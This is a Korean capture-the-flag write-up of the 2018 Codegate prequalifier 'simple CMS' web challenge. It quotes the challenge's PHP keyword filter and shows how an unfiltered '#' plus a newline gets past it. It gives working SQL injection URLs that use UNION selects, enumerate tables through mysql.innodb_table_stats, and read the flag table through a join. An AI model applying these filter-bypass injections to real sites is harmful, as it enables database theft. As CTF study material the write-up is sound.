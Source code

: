 # [2018_Codegate_Prequal] \[Web] simple CMS

## Key words

* SQL injection

## Solution

~~대회 내내 풀었지만 결국 못 풀었던 문제...~~

![1](./img/1.png)

flag는 DB에 존재합니다. 따라서 SQL injection을 통해 flag를 읽어와야 한다는 느낌이 들었습니다.

```php
<?php 
	if(!defined('simple_cms')) exit();

	$method = $_SERVER['REQUEST_METHOD'];

	if($method !== 'GET' && $method !== 'POST'){
			exit('are you hacker?');
	}

	$filter_str = array('or', 'and', 'information', 'schema', 'procedure', 'analyse', 'order', 'by', 'group', 'into');

	function escape_str($array)
	{
	    if(is_array($array)) {
	        foreach($array as $key => $value) {
	            if(is_array($value)) {
	                $array[$key] = escape_str($value);
	            } else {
	                $array[$key] = filter($value);
	            }
	        }
	    } 
	    else {
	        $array = filter($array);
	    }
	    return $array;
	}
	function filter($str){
		global $filter_str;

		foreach ($filter_str as $value) {
			if(stripos($str, $value) !== false){
				die('are you hacker?');
			}
		}
		return addslashes($str);
	}

	$_GET = escape_str($_GET);
	$_POST = escape_str($_POST);
	$_COOKIE = escape_str($_COOKIE);
	$_REQUEST = escape_str($_REQUEST);
?>
```

`function.php`를 보면 GET, POST, REQUEST 등을 통해 가져온 변수를 모두 필터링합니다. 이 때문에 인용부호를 통한 escaping은 불가능해집니다. ~~그래서 저는 SQL injection이 불가능하다고 판단했습니다. 그래서 SQL injection 말고 'php를 클래스로 구현해놓은 이유가 있을거야'라고 생각하며 SQL injection 말고 다른 곳에서 헛짓거리를 몇시간동안 했습니다. 하지만 결국은 SQL injection 문제더군요...~~

```php
		function action_search(){
			$column = Context::get('col');
			$search = Context::get('search');
			$type = strtolower(Context::get('type'));
			$operator = 'or';
			
			echo "column : ".$column."<br>";
			echo "search : ".$search."<br>";
			
			if($type === '1'){
				$operator = 'or';
			}
			else if($type === '2'){
				$operator = 'and';
			}
			if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
				$column = 'title';
			}
			$query = get_search_query($column, $search, $operator);
			$result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
			include(CMS_SKIN_PATH . 'board.php');
		}
```

몇시간 삽질을 하다가 발견한건데 버그가 나는 곳은 한 곳뿐이었습니다. 위는 Board 클래스의 함수인데 #을 필터링하지 않습니다. 따라서 col에 #을 삽입하여 `http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=ddd`에 접속하게 되면 SQL 에러가 발생합니다. 이걸로 뭘 할 수 있겠나 싶었지만 이게 핵심이었습니다.

\#은 한줄만 주석을 처리하는 문자입니다. 따라서 다음 줄에 나오는 내용은 주석 처리를 하지 않습니다. 

```
act=board&mid=search&col=title%23&type=1&search=ddd%0a)%20union%20select%201,2,3,4,5%20%23
```

따라서 파라미터를 위와 같이 구성한다면 다음의 SQL문이 완성됩니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%ddd ) union select 1,2,3,4,5 #%' order by date desc limit 0, 10
```

이는 정상적인 SQL문으로 인식되어 1,2,4가 출력되는걸 확인할 수 있습니다. 이제 flag가 있는 테이블명을 가져와보겠습니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%ddd ) union select 1,(select table_name from mysql.innodb_table_stats limit 2,1),3,4,5 #%'

http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=ddd%0a)%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%20%23
```

`41786c497656426a6149_flag`가 테이블 명입니다. 원래대로라면 이제 컬럼명도 긁어와야하지만 join을 통해 컬럼명 없이 flag 가져올 수 있습니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%test )<0 union (select 1,t.* from mysql.user join 41786c497656426a6149_flag t)#%'

http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0A)%3C0%20union%20(select%201,t.*%20from%20mysql.user%20join%2041786c497656426a6149_flag%20t)%23
```

`flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`

